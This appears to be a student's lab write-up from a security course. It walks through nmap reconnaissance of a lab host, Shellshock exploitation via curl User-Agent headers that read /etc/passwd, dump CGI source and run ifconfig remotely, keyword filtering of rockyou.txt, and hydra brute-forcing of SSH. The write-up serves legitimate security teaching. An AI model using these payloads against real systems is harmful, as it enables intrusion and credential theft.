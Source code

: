 # Week 4: Manual Vulnrability Detection

Were given a chance to actually crack credentials from a host on our network. The hostname is cupcake and its info isn't given to us through the assignment. We're tasked with gathering info through our `nmap` commands and use some new process to dig deeper into the hosts information.

Info given about the target :
* hostname: `cupcake`
* IP Address `10.0.5.23`
* Domain `cupcake.shire.org`

The one liner below provides port scanning and OS detection. 

`nmap -sV -A -sT 10.0.5.23`

The breakdown of this command and its flags:

* `-sV` : This flag enables version detection. Nmap attempts to detect the version of the services running on the open ports it finds. This can provide detailed information about what software and versions are running on the target machine.
* `-A` : This flag enables aggressive scanning. It combines multiple options to gather as much information as possible. Specifically, it does:

     * OS detection (detects the target's operating system).
     * Version detection (already covered by -sV).
     * Script scanning (runs default Nmap scripts against the target to detect vulnerabilities, misconfigurations, etc.).
     * Traceroute (finds the network path to the host).
* `-sT` : This flag initiates a TCP connect scan. Instead of using the default SYN scan (which is stealthier), it performs a full TCP connection (3-way handshake) to determine whether a port is open. This method is easier to detect by the target but is reliable because it completes the connection.

After this one liner were given alot of infomrmation from our target host:

|IP	|FQDN	|PORT	|PROTOCOL	|SERVICE	|VERSION|
| -- | -- | -- | -- | -- | -- |
|10.0.5.23|	 | 22	|tcp	|ssh	|OpenSSH 5.3 (protocol 2.0)|
|10.0.5.23|	 | 80	|tcp	|http	|Apache httpd 2.2.15 ((CentOS))|

Running: Linux 2.6.X|3.X

CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 

### NmapToCSV Walkthrough

After taking our newwst `nmap` scanand outputting it into a text document using `>>` we are tasked to use nmaptocsv to format the data into a google sheets/csv fotmat.

`nmaptocsv -i nmapoutput.txt -d ","  `

This takes out output from the txt document anad prints an output that can be pasted into google sheets.

### Vulnerablity Detection

Using the flags wihthin nmap allow us to grab the kernel of a target.

`sudo nmap -O -sV 10.0.5.23`

The info that is found by running this command is:

OS PE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 

OS details: Linux 2.632 - 3.10, Linux 2.6.32 - 3.13, Linux 3.4 - 3.10


Using `curl` to gather contents from the apache server is what were tasked to do next. Our main targets are **contents of /etc/passwd** + **code behind cgi** + **running ipconfig on remote computer**. 

To grab the contents of passwd the curl command is used with this formatting:
`curl -H 'UserAgent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s : '' https://10.0.5.23/cgi-bin/status >> passwrd.txt`

Our output is the stored in `passwrd.txt`, this document then can be used and parsed and `grepped`.

The code behind status cgi is found by runnig a similar curl command:

`curl -H 'UserAgent: () { :; }; echo ; echo ; /bin/cat /usr/bin/cgi-bin/status' bash -s : '' https://10.0.5.23/cgi-bin/status`

This will print out the html which shows the hostname of `10.0.5.23`.

Running `ifconfig` requires us to modify the curl statement once again:

`curl -H 'UserAgent: () { :; }; echo ; echo ; /sbin/ifconfig' https://10.0.5.23/cgi-bin/status`

This will output teh results of an `ifconfig` command on 10.0.5.23.

Using our preoiusly gathered password list we need to find potential passwords. We use a wordlist found wihtin our kali machines. We need to extract the contnents and use this list and our found keyword to filter through passwords. Were given a target number of 28 passwords so we know we have the right keyword.

Using `grep` we can compare the wordlist called "rockyou.txt" to "brutepass.txt"

`grep -i 'samwise' ~/rockyou.txt > brutepass.txt`

This will find the 28 passwords that include our keyword and move them to brutepass.txt

### Using Hydra

Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

We are using `hydra` and its flags to crack `ssh` using out password list and username we identified earlier.

`hydra -l username -P ~/brutepass.txt 10.0.5.23 -t 4 ssh`

* The `-l` flag identifies the username which must be inputted
* The `-P` flag allows for a file with a password list to be cycked through in the attempts
* `ssh` determines the protocol to attack





